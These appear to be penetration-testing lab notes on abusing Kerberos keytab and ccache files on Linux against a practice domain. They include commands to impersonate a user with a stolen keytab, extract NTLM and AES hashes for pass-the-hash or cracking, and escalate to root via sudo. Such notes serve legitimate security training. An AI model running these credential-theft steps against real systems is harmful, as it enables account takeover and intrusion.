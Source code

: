 #### Impersonating a User with a keytab
```Shell
klist
```

```Shell
kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

```Shell
klist
```

#### Connecting to SMB Share as Carlos (from target host)
```Shell
smbclient //dc01/carlos -k -c ls
```

***Note: To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable KRB5CCNAME.*

### Keytab Extract

#### Extracting Keytab Hashes with KeyTabExtract
```Shell
python3 keytabextract.py /opt/specialfiles/carlos.keytab 
```
With the NTLM hash, we can perform a Pass the Hash attack. With the AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt to crack the hashes to obtain the plaintext password.

***Note: A keypass file can contain different types of hashes and can be merged to contain multiple credentials even from different users.*

https://crackstation.net/

#### Log in as user
```Shell
su - carlos@inlanefreight.htb
```

Extract all the hashes from all the keytabs

### Abusing Keytab ccache

#### Privilege Escalation to Root
```Shell
ssh svc_workstations@inlanefreight.htb@10.129.204.23 -p 2222
```

```Shell
sudo -l
```

```Shell
sudo su
```

#### Looking for ccache Files
```Shell
ls -la /tmp
```
